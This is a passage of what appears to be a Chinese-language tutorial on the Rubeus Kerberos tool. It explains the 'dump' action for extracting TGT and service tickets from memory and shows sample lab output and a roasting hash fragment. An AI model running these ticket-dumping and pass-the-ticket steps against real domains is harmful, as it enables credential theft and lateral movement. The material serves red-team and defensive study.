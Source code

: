 ```
      $krb5asrep$dfm.a@testlab.local:F7310EA341128...(snip)..
```

### <a class="reference-link" name="dump"></a>dump

在已经管理员权限的情况下，**dump** 操作将从内存中提取当前的 TGT 和服务票据。可以使用 **/service** （使用 **/service:krbtgt** 来指定 TGT 票据）和 / 或 登录 ID （ **luid:X** 参数）来指定要提取的票据类型。操作将返回base64编码的blob 数据，并保存为KRB-CRED 文件（.kirbis）。此文件可被用于 **ptt** 操作，Mimikatz的 **kerberos::ptt** 功能，或者 Cobalt Strike 的 **kerberos_ticket_use** 操作。

```
c:Temptickets&gt;Rubeus.exe dump /service:krbtgt /luid:366300

   ______        _
  (_____       | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ | ___ | | | |/___)
  | |   | |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.0.0


[*] Action: Dump Kerberos Ticket Data (All Users)

[*] Target LUID     : 0x596f6
[*] Target service  : krbtgt


  UserName                 : harmj0y
  Domain                   : TESTLAB
  LogonId                  : 366326
  UserSID                  : S-1-5-21-883232822-274137685-4173207997-1111
  AuthenticationPackage    : Kerberos
  LogonType                : Interactive
  LogonTime                : 9/17/2018 9:05:26 AM
  LogonServer              : PRIMARY
  LogonServerDNSDomain     : TESTLAB.LOCAL
  UserPrincipalName        : harmj0y@testlab.local

    [*] Enumerated 1 ticket(s):

    ServiceName              : krbtgt
    TargetName               : krbtgt
    ClientName               : harmj0y
    DomainName               : TESTLAB.LOCAL
    TargetDomainName         : TESTLAB.LOCAL
    AltTargetDomainName      : TESTLAB.LOCAL
    SessionKeyType           : aes256_cts_hmac_sha1
    Base64SessionKey         : AdI7UObh5qHL0Ey+n28oQpLUhfmgbAkpvcWJXPC2qKY=
    KeyExpirationTime        : 12/31/1600 4:00:00 PM
    TicketFlags              : name_canonicalize, pre_authent, initial, renewable, forwardable
    StartTime                : 9/17/2018 4:20:25 PM
    EndTime                  : 9/17/2018 9:20:25 PM
    RenewUntil               : 9/24/2018 2:05:26 AM
    TimeSkew                 : 0
    EncodedTicketSize        : 1338
    Base64EncodedTicket      :

      doIFNjCCBTKgAwIBBaEDAg...(snip)...


[*] Enumerated 4 total tickets
[*] Extracted  1 total tickets
```